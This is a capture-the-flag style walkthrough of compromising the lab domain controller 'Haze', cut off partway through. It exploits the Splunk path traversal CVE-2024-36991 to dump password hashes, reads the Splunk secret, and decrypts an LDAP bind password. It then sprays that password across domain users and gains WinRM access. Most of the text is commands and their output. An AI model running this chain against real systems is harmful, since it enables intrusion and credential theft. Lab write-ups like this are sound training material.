







# Haze
## Host file setup
```python
sudo nxc smb 10.129.11.223 --generate-hosts-file /etc/hosts
[sudo] password for kali: 
SMB         10.129.11.223   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:None) (Null Auth:True)
```

## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT dc01.haze.htb                                                                                                                                   
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-07 16:31 +0100
Nmap scan report for dc01.haze.htb (10.129.11.223)
Host is up (0.013s latency).
rDNS record for 10.129.11.223: DC01.haze.htb
Not shown: 65505 closed tcp ports (conn-refused)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
8000/tcp  open  http-alt
8088/tcp  open  radan-http
8089/tcp  open  unknown
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49674/tcp open  unknown
49683/tcp open  unknown
49684/tcp open  unknown
64858/tcp open  unknown
64865/tcp open  unknown
64868/tcp open  unknown
64883/tcp open  unknown
64918/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 11.22 seconds
```

### Nmap
```python
nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,8000,8088,8089,9389 -A --min-rate=2000 -sT dc01.haze.htb                                                            
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-07 16:33 +0100
Nmap scan report for dc01.haze.htb (10.129.11.223)
Host is up (0.013s latency).
rDNS record for 10.129.11.223: DC01.haze.htb

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-06-07 23:33:45Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: haze.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2026-06-07T23:20:32
|_Not valid after:  2027-06-07T23:20:32
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: haze.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2026-06-07T23:20:32
|_Not valid after:  2027-06-07T23:20:32
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: haze.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2026-06-07T23:20:32
|_Not valid after:  2027-06-07T23:20:32
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: haze.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2026-06-07T23:20:32
|_Not valid after:  2027-06-07T23:20:32
|_ssl-date: TLS randomness does not represent time
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8000/tcp open  http          Splunkd httpd
|_http-server-header: Splunkd
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://dc01.haze.htb:8000/en-US/account/login?return_to=%2Fen-US%2F
| http-robots.txt: 1 disallowed entry 
|_/
8088/tcp open  ssl/http      Splunkd httpd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2025-03-05T07:29:08
|_Not valid after:  2028-03-04T07:29:08
| http-robots.txt: 1 disallowed entry 
|_/
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Splunkd
|_http-title: 404 Not Found
8089/tcp open  ssl/http      Splunkd httpd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2025-03-05T07:29:08
|_Not valid after:  2028-03-04T07:29:08
|_http-title: splunkd
|_http-server-header: Splunkd
|_ssl-date: TLS randomness does not represent time
| http-robots.txt: 1 disallowed entry 
|_/
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows 10 1703 or Windows 11 21H2 - 23H2 (96%), Microsoft Windows Server 2016 (96%), Microsoft Windows 11 24H2 (96%), Microsoft Windows Server 2022 (95%), Microsoft Windows 11 24H2 - 25H2 (95%), Microsoft Windows Server 2012 R2 (93%), Microsoft Windows Server 2019 (92%), Microsoft Windows Server 2016 or Server 2019 (91%), Microsoft Windows Server 2012 (91%), Microsoft Windows 10 1703 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB (445)
Null auth is enabled but i cannot use it to list shares or dump users

Guest account is disabled

## HTTP (8000)
### Nuclei
```python
nuclei -u http://haze.htb:8000/       

[CVE-2024-36991] [http] [high] http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../Windows/win.ini
[INF] Skipped haze.htb:9780 from target list as found unresponsive permanently: cause="port closed or filtered" address=haze.htb:9780 chain="connection refused; got err while executing http://haze.htb:9780/api/v1/user_assets/nfc"
[ldap-metadata] [javascript] [info] haze.htb:8000 ["DomainControllerFunctionality: 7","BaseDN: dc=8000","DnsHostName: dc01.haze.htb","DefaultNamingContext: DC=haze,DC=htb","DomainFunctionality: 7","ForestFunctionality: 7"]
[splunk-enterprise-panel] [http] [info] http://haze.htb:8000/en-US/account/login
[http-missing-security-headers:content-security-policy] [http] [info] http://haze.htb:8000/en-GB/account/login?return_to=%2Fen-GB%2F
[http-missing-security-headers:permissions-policy] [http] [info] http://haze.htb:8000/en-GB/account/login?return_to=%2Fen-GB%2F
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://haze.htb:8000/en-GB/account/login?return_to=%2Fen-GB%2F
[http-missing-security-headers:referrer-policy] [http] [info] http://haze.htb:8000/en-GB/account/login?return_to=%2Fen-GB%2F
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://haze.htb:8000/en-GB/account/login?return_to=%2Fen-GB%2F
[http-missing-security-headers:cross-origin-opener-policy] [http] [info] http://haze.htb:8000/en-GB/account/login?return_to=%2Fen-GB%2F
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://haze.htb:8000/en-GB/account/login?return_to=%2Fen-GB%2F
[http-missing-security-headers:strict-transport-security] [http] [info] http://haze.htb:8000/en-GB/account/login?return_to=%2Fen-GB%2F
[http-missing-security-headers:referrer-policy] [http] [info] http://haze.htb:8000/en-GB/
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://haze.htb:8000/en-GB/
[http-missing-security-headers:cross-origin-opener-policy] [http] [info] http://haze.htb:8000/en-GB/
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://haze.htb:8000/en-GB/
[http-missing-security-headers:strict-transport-security] [http] [info] http://haze.htb:8000/en-GB/
[http-missing-security-headers:content-security-policy] [http] [info] http://haze.htb:8000/en-GB/
[http-missing-security-headers:permissions-policy] [http] [info] http://haze.htb:8000/en-GB/
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://haze.htb:8000/en-GB/
[http-missing-security-headers:permissions-policy] [http] [info] http://haze.htb:8000/
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://haze.htb:8000/
[http-missing-security-headers:referrer-policy] [http] [info] http://haze.htb:8000/
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://haze.htb:8000/
[http-missing-security-headers:cross-origin-opener-policy] [http] [info] http://haze.htb:8000/
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://haze.htb:8000/
[http-missing-security-headers:strict-transport-security] [http] [info] http://haze.htb:8000/
[http-missing-security-headers:content-security-policy] [http] [info] http://haze.htb:8000/
[robots-txt-endpoint] [http] [info] http://haze.htb:8000/robots.txt
[robots-txt] [http] [info] http://haze.htb:8000/robots.txt
[missing-cookie-samesite-strict] [http] [info] http://haze.htb:8000/en-GB/account/login?return_to=%2Fen-GB%2F ["cval=1064979552; Path=/en-GB/account/ splunkweb_uid=D49EBB76-3DE2-417C-9AA2-38EE230638CB; Path=/en-GB/account; Max-Age=157680000; Expires=Fri, 06 Jun 2031 23:44:30 GMT"]
[fingerprinthub-web-fingerprints:splunk] [http] [info] http://haze.htb:8000/en-GB/account/login?return_to=%2Fen-GB%2F
[fingerprinthub-web-fingerprints:splunkd] [http] [info] http://haze.htb:8000/en-GB/account/login?return_to=%2Fen-GB%2F
[missing-cookie-samesite-strict] [http] [info] http://haze.htb:8000/en-GB/ ["session_id_8000=291dda4b4ddb6c2dc26ea8c71ecd2bdd833b8633; expires=Mon, 08 Jun 2026 00:44:30 GMT; HttpOnly; Max-Age=3600; Path=/"]
[fingerprinthub-web-fingerprints:splunk] [http] [info] http://haze.htb:8000/en-GB/
[fingerprinthub-web-fingerprints:splunkd] [http] [info] http://haze.htb:8000/en-GB/
[fingerprinthub-web-fingerprints:splunk] [http] [info] http://haze.htb:8000/
[fingerprinthub-web-fingerprints:splunkd] [http] [info] http://haze.htb:8000/
[caa-fingerprint] [dns] [info] haze.htb
```
CVE-2024-36991?


## CVE-2024-36991

https://github.com/bigb0x/CVE-2024-36991/blob/main/CVE-2024-36991.py

```python
python3 CVE-2024-36991.py -u http://haze.htb:8000/     
/home/kali/htb/haze/CVE-2024-36991/CVE-2024-36991.py:55: SyntaxWarning: invalid escape sequence '\ '
  LOG_DIR = 'logs'

                                                                        
  ______     _______     ____   ___ ____  _  _        _____  __   ___   ___  _ 
 / ___\ \   / | ____|   |___ \ / _ |___ \| || |      |___ / / /_ / _ \ / _ \/ |
| |    \ \ / /|  _| _____ __) | | | |__) | || |_ _____ |_ \| '_ | (_) | (_) | |
| |___  \ V / | |__|_____/ __/| |_| / __/|__   _|________) | (_) \__, |\__, | |
 \____|  \_/  |_____|   |_____|\___|_____|  |_|      |____/ \___/  /_/   /_/|_|
                                                                           
-> POC CVE-2024-36991. This exploit will attempt to read Splunk /etc/passwd file. 
-> By x.com/MohamedNab1l
-> Use Wisely.

[INFO] Log directory created: logs
[INFO] Testing single target: http://haze.htb:8000/
[VLUN] Vulnerable: http://haze.htb:8000/
:admin:$6$Ak3m7.aHgb/NOQez$O7C8Ck2lg5RaXJs9FrwPr7xbJBJxMCpqIx3TG30Pvl7JSvv0pn3vtYnt8qF4WhL7hBZygwemqn7PBj5dLBm0D1::Administrator:admin:changeme@example.com:::20152
:edward:$6$3LQHFzfmlpMgxY57$Sk32K6eknpAtcT23h6igJRuM1eCe7WAfygm103cQ22/Niwp1pTCKzc0Ok1qhV25UsoUN4t7HYfoGDb4ZCv8pw1::Edward@haze.htb:user:Edward@haze.htb:::20152
:mark:$6$j4QsAJiV8mLg/bhA$Oa/l2cgCXF8Ux7xIaDe3dMW6.Qfobo0PtztrVMHZgdGa1j8423jUvMqYuqjZa/LPd.xryUwe699/8SgNC6v2H/:::user:Mark@haze.htb:::20152
:paul:$6$Y5ds8NjDLd7SzOTW$Zg/WOJxk38KtI.ci9RFl87hhWSawfpT6X.woxTvB4rduL4rDKkE.psK7eXm6TgriABAhqdCPI4P0hcB8xz0cd1:::user:paul@haze.htb:::20152
```
This looks like its dumped hashes for four users!

Of course these are hashes and to crack these ill have to get the `splunk.secret` 

After doing some research i find the path is `C:\Program Files\Splunk\etc\auth\splunk.secret`



I found the secret

```python
NfKeJCdFGKUQUqyQmnX/WM9xMn5uVF32qyiofYPHkEOGcpMsEN.lRPooJnBdEL5Gh2wm12jKEytQoxsAYA5mReU9.h0SYEwpFMDyyAuTqhnba9P2Kul0dyBizLpq6Nq5qiCTBK3UM516vzArIkZvWQLk3Bqm1YylhEfdUvaw1ngVqR1oRtg54qf4jG0X16hNDhXokoyvgb44lWcH33FrMXxMvzFKd5W3TaAUisO6rnN0xqB7cHbofaA1YV9vgD
```

After some research i find i can use a tool called splunksecrets for password decryption.

https://github.com/HurricaneLabs/splunksecrets

For some reason i cannot get these to decrypt, the only possible explanation is these are not the right ciphertexts for this secret

Ill do some more research on other possible ciphertexts stored in the splunk config

```python
curl 'http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/system/local/authentication.conf' --path-as-is 
[splunk_auth]
minPasswordLength = 8
minPasswordUppercase = 0
minPasswordLowercase = 0
minPasswordSpecial = 0
minPasswordDigit = 0

[Haze LDAP Auth]
SSLEnabled = 0
anonymous_referrals = 1
bindDN = CN=Paul Taylor,CN=Users,DC=haze,DC=htb
bindDNpassword = $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=
charset = utf8
emailAttribute = mail
enableRangeRetrieval = 0
groupBaseDN = CN=Splunk_LDAP_Auth,CN=Users,DC=haze,DC=htb
groupMappingAttribute = dn
groupMemberAttribute = member
groupNameAttribute = cn
host = dc01.haze.htb
nestedGroups = 0
network_timeout = 20
pagelimit = -1
port = 389
realNameAttribute = cn
sizelimit = 1000
timelimit = 15
userBaseDN = CN=Users,DC=haze,DC=htb
userNameAttribute = samaccountname

[authentication]
authSettings = Haze LDAP Auth
authType = LDAP
```
Now i have found another hash, for a user paul taylor



```python
Ld@p_Auth_Sp1unk@2k24
```
Since this was for the user paul taylor, ill try some possible combinations for paul, before trying something like username anarchy.

```python
nxc smb dc01.haze.htb -u 'paul.taylor' -p 'Ld@p_Auth_Sp1unk@2k24'
SMB         10.129.11.223   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.11.223   445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24
```
This user is now compromised

## Access as `paul.taylor`

### Shares
```python
nxc smb dc01.haze.htb -u paul.taylor -p 'Ld@p_Auth_Sp1unk@2k24' --shares
SMB         10.129.11.223   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.11.223   445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
SMB         10.129.11.223   445    DC01             [*] Enumerated shares
SMB         10.129.11.223   445    DC01             Share           Permissions     Remark
SMB         10.129.11.223   445    DC01             -----           -----------     ------
SMB         10.129.11.223   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.11.223   445    DC01             C$                              Default share
SMB         10.129.11.223   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.11.223   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.11.223   445    DC01             SYSVOL          READ            Logon server share
```
No interesting access on shares

### Users
```python
nxc smb dc01.haze.htb -u paul.taylor -p 'Ld@p_Auth_Sp1unk@2k24' --rid-brute 20000
SMB         10.129.11.223   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.11.223   445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
SMB         10.129.11.223   445    DC01             498: HAZE\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.11.223   445    DC01             500: HAZE\Administrator (SidTypeUser)
SMB         10.129.11.223   445    DC01             501: HAZE\Guest (SidTypeUser)
SMB         10.129.11.223   445    DC01             502: HAZE\krbtgt (SidTypeUser)
SMB         10.129.11.223   445    DC01             512: HAZE\Domain Admins (SidTypeGroup)
SMB         10.129.11.223   445    DC01             513: HAZE\Domain Users (SidTypeGroup)
SMB         10.129.11.223   445    DC01             514: HAZE\Domain Guests (SidTypeGroup)
SMB         10.129.11.223   445    DC01             515: HAZE\Domain Computers (SidTypeGroup)
SMB         10.129.11.223   445    DC01             516: HAZE\Domain Controllers (SidTypeGroup)
SMB         10.129.11.223   445    DC01             517: HAZE\Cert Publishers (SidTypeAlias)
SMB         10.129.11.223   445    DC01             518: HAZE\Schema Admins (SidTypeGroup)
SMB         10.129.11.223   445    DC01             519: HAZE\Enterprise Admins (SidTypeGroup)
SMB         10.129.11.223   445    DC01             520: HAZE\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.11.223   445    DC01             521: HAZE\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.11.223   445    DC01             522: HAZE\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.11.223   445    DC01             525: HAZE\Protected Users (SidTypeGroup)
SMB         10.129.11.223   445    DC01             526: HAZE\Key Admins (SidTypeGroup)
SMB         10.129.11.223   445    DC01             527: HAZE\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.11.223   445    DC01             553: HAZE\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.11.223   445    DC01             571: HAZE\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.11.223   445    DC01             572: HAZE\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.11.223   445    DC01             1000: HAZE\DC01$ (SidTypeUser)
SMB         10.129.11.223   445    DC01             1101: HAZE\DnsAdmins (SidTypeAlias)
SMB         10.129.11.223   445    DC01             1102: HAZE\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.11.223   445    DC01             1103: HAZE\paul.taylor (SidTypeUser)
SMB         10.129.11.223   445    DC01             1104: HAZE\mark.adams (SidTypeUser)
SMB         10.129.11.223   445    DC01             1105: HAZE\edward.martin (SidTypeUser)
SMB         10.129.11.223   445    DC01             1106: HAZE\alexander.green (SidTypeUser)
SMB         10.129.11.223   445    DC01             1107: HAZE\gMSA_Managers (SidTypeGroup)
SMB         10.129.11.223   445    DC01             1108: HAZE\Splunk_Admins (SidTypeGroup)
SMB         10.129.11.223   445    DC01             1109: HAZE\Backup_Reviewers (SidTypeGroup)
SMB         10.129.11.223   445    DC01             1110: HAZE\Splunk_LDAP_Auth (SidTypeGroup)
SMB         10.129.11.223   445    DC01             1111: HAZE\Haze-IT-Backup$ (SidTypeUser)
SMB         10.129.11.223   445    DC01             1112: HAZE\Support_Services (SidTypeGroup)
```
I can adapt this command to write all the users from this output to a userfile

```python
nxc smb dc01.haze.htb -u paul.taylor -p 'Ld@p_Auth_Sp1unk@2k24' --rid-brute 20000 | grep '(SidTypeUser)' | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt
```

There are no kerberoastalbe users and none are AS-REP roastable

Now might be a good time to collect bloodhound data

## Password spray leads to user compromise

```python
nxc ldap dc01.haze.htb -u paul.taylor -p 'Ld@p_Auth_Sp1unk@2k24' --pass-pol                                    
LDAP        10.129.11.223   389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb) (signing:None) (channel binding:Never) 
LDAP        10.129.11.223   389    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.129.11.223   389    DC01             [+] Dumping password info for domain: haze.htb
LDAP        10.129.11.223   389    DC01             Minimum password length: 7
LDAP        10.129.11.223   389    DC01             Password history length: 24
LDAP        10.129.11.223   389    DC01             Maximum password age: 41 days 23 hours 52 minutes 
LDAP        10.129.11.223   389    DC01             
LDAP        10.129.11.223   389    DC01             Password Complexity Flags: 000001
LDAP        10.129.11.223   389    DC01                 Domain Refuse Password Change: 0
LDAP        10.129.11.223   389    DC01                 Domain Password Store Cleartext: 0
LDAP        10.129.11.223   389    DC01                 Domain Password Lockout Admins: 0
LDAP        10.129.11.223   389    DC01                 Domain Password No Clear Change: 0
LDAP        10.129.11.223   389    DC01                 Domain Password No Anon Change: 0
LDAP        10.129.11.223   389    DC01                 Domain Password Complex: 1
LDAP        10.129.11.223   389    DC01             
LDAP        10.129.11.223   389    DC01             Minimum password age: 23 hours 52 minutes 
LDAP        10.129.11.223   389    DC01             Reset Account Lockout Counter: 30 minutes 
LDAP        10.129.11.223   389    DC01             Locked Account Duration: 30 minutes 
LDAP        10.129.11.223   389    DC01             Account Lockout Threshold: 0
LDAP        10.129.11.223   389    DC01             Forced Log off Time: Not Set
```
First ill check the lockout policy, its not set here so i dont have to worry

```python
nxc ldap dc01.haze.htb -u users.txt -p 'Ld@p_Auth_Sp1unk@2k24' --continue-on-success
LDAP        10.129.11.223   389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb) (signing:None) (channel binding:Never) 
LDAP        10.129.11.223   389    DC01             [-] haze.htb\Administrator:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.129.11.223   389    DC01             [-] haze.htb\Guest:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.129.11.223   389    DC01             [-] haze.htb\krbtgt:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.129.11.223   389    DC01             [-] haze.htb\DC01$:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.129.11.223   389    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.129.11.223   389    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.129.11.223   389    DC01             [-] haze.htb\edward.martin:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.129.11.223   389    DC01             [-] haze.htb\alexander.green:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.129.11.223   389    DC01             [-] haze.htb\Haze-IT-Backup$:Ld@p_Auth_Sp1unk@2k24
```
As seen here i have now compromised the user `mark.adams`

## Bloodhound
Now ill collect bloodhound data since the next move is not obvious!



This user is a part of remote management users, so i should be able to winrm

Also part of the GMSA managers group

Since this user is apart of the remote management users ill get a shell as the user and ill recollect data using sharphound.

```python
*Evil-WinRM* PS C:\Users\mark.adams\Desktop> .\SharpHound.exe -c all

...[SNIP]...

*Evil-WinRM* PS C:\Users\mark.adams\Desktop> dir


    Directory: C:\Users\mark.adams\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          6/7/2026   7:03 PM          41549 20260607190340_BloodHound.zip
-a----          6/7/2026   7:03 PM           1595 NzBkNGM2ZWYtODFhYy00M2M0LTgzNzMtNmViNTQ1NzJhN2Nk.bin
-a----          6/7/2026   7:02 PM        1351680 SharpHound.exe


*Evil-WinRM* PS C:\Users\mark.adams\Desktop> download 20260607190340_BloodHound.zip
                                        
Info: Downloading C:\Users\mark.adams\Desktop\20260607190340_BloodHound.zip to 20260607190340_BloodHound.zip
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\mark.adams\Desktop>
```

So after looking around on bloodhound i see no outbound object control that tells me i can get the GMSA

Ill try using bloodyAD to see if there is something i have to do first

## Dumping GMSA of the service account

```python
bloodyAD -d haze.htb --host dc01.haze.htb -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' get writable 

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=haze,DC=htb
